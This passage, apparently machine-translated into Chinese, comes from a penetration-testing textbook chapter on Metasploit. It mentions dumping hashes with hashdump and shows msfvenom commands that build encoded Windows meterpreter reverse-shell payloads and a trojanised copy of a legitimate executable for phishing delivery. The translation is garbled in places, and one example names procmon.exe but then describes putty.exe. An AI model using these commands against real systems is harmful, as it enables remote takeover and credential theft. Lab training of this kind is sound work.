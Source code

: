 图 27：使用 hashdump 命令转储目标系统的当前哈希

前面的哈希是从 Metasploitable 3 虚拟机转储的。保留这些，因为您将在[第 6 章](06.html)*中再次使用它们，了解密码攻击。*我将它们保存为`Meta3-hashes.txt`。

MeterMeter 有一长串的功能。在执行各种渗透测试时，您将在各种场景中利用不同的功能。

# 使用 MSFvenom

在本章前面，我们重点介绍了使用 Metasploit 框架来利用目标系统上的漏洞并控制它。使用 MSFvenom，您的目标不是依赖系统中的漏洞，而是利用所有组织中最常见的安全问题：用户。这是一个永远无法完全修补的漏洞

MSFvenom 基本上用于构建外壳代码。外壳代码可以定义为在运行时向攻击者创建反向远程外壳的代码

外壳代码可以通过将其插入到文件中，然后将该文件发送到目标来使用。正如我们在[第 4 章](04.html)*【掌握社会工程】中所学到的，这可以通过网络钓鱼活动来实现。文件运行后，您可以远程访问目标计算机。现实世界的攻击者也利用了这种技术。外壳代码不仅限于文件，还可以插入到软件中。这是常见的恶意应用，您可以在移动设备的应用商店中找到。远离网络钓鱼和软件，外壳代码可以嵌入已被破坏的网站。因此，当有人浏览网站时，恶意软件可能会加载到他们的机器上，从而使其受到危害。*

外壳代码可以通过`msfpayload`和`msfencode`命令在早期版本的 Metasploit 中构建。这些服务现已与`msfvenom`实用程序合并并被替换。如果您习惯了旧工具，`msfvenom`不是问题，因为修改很少。

使用 MSFvenom 有以下优点：

*   只有一个工具可以生成跨平台外壳代码。
*   命令行选项是标准化的。
*   创建外壳代码时速度的提高使您能够将应用用作模板。

要使用 MSFvenom，您需要在 Kali Linux 的终端窗口中输入`msfvenom`命令。应用将向您提供可用选项的列表。以下是一些最重要的选择：

*   `-p`用于选择 Metasploit 有效载荷，有多个有效载荷可用；它们支持 Windows、Linux、Mac 等。定义有效负载的示例如下所示：

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LOCAL IP> LPORT=<LOCAL PORT> -f exe -o shell.exe
```

在本例中，我们使用的是`windows/meterpreter/reverse_tcp`有效负载，定义了本地主机和 IP 地址。使用`-f`选项将输出格式定义为`.exe`，使用`-o`选项将输出文件保存为`shell.exe`。

*   `-e`用于选择编码器。编码器是一种可用于重新编码有效载荷的算法。这用于混淆有效负载的意图。您可以使用`msfvenom -l encoders`命令找到编码器列表。**使用编码器的示例如下：**

 **```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LOCAL IP> LPORT=<LOCAL PORT> -e x86/shikata_ga_nai -i 3 -f exe -o payload.exe
```

在本例中，选择的编码器为`shikata_ga_nai`，使用`-i`**选项定义的迭代为`3`。**

 ***   `-x`用于定义自定义可执行文件作为模板使用。使用此选项，您可以获取合法文件并创建其恶意版本，从而授予您远程 shell。这方面的一个例子如下：

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LOCAL IP> LPORT=<LOCAL PORT> -x procmon.exe -f exe -o evilprocmon.exe
```

在本例中，`putty.exe`被用作模板来创建名为`evilputty.exe`的恶意版本。

# 总结

在本章中，我们研究了 Metasploit 框架。我们定义了它可以用于什么，并探讨了包含的各种类型的模块。我们完成了 Metasploit 的一些初始任务，并研究了在哪里可以获得新模块。利用 Metasploit 的灵活性，我们从其他来源（如 Nmap 和 Nessus）导入数据，并探索 Metasploit 的核心组件。最后，我们研究了在外壳代码的创建中使用 MSFvenom。

现在，您可以执行 Metasploit 框架的初始配置。您已经学习了如何执行一些初始设置任务，例如更新 Metasploit 框架并将其链接到数据库。您已经掌握了如何通过使用工作区和从 Nmap 和 Nessus 等工具导入数据来增强 Metasploit 框架内体验的技能。您已经了解了从何处获取新模块以及如何安装它们。您已经了解了 Metasploit 的主要选项以及 Shell 和有效载荷之间的区别。最后，在本章中，您已经掌握了如何使用 MSFvenom 利用外壳代码的技巧。

在下一章（[第 6 章](06.html)、*理解密码攻击*）中，我们将了解各种类型的密码攻击以及从何处获取密码列表。我们将利用 Kali Linux 中的内置工具，并执行一些密码破解和凭据转储。

# 问题

```